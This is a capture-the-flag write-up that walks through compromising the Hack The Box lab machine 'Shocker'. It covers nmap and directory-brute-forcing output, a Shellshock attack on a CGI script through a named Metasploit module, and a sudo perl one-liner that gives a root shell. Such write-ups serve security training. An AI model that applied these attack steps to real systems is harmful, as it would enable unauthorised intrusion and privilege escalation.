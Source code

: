 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy,sudo,shellshock]
layout: post
categories: HackTheBox OSCP-Machines
---
```


![](/img/htb-shocker/shocker1.png)

We are going to pwn Shocker from Hack The Box. It is Easy level linux machine.

Link : <https://www.hackthebox.eu/home/machines/profile/108>

Like always begin with our Nmap Scan.

## Enumeration
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](/img/htb-shocker/shocker2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](/img/htb-shocker/shocker3.png)

![](/img/htb-shocker/shocker4.png)

My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](/img/htb-shocker/shocker5.png)

![](/img/htb-shocker/shocker6.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](/img/htb-shocker/shocker7.png)

We have an user called ``shelly``

## Privilege Escaltion

I did ``sudo -l`` and found that ``perl`` can run as root without password.
![](/img/htb-shocker/shocker8.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](/img/htb-shocker/shocker9.png)

We got ROOT ~
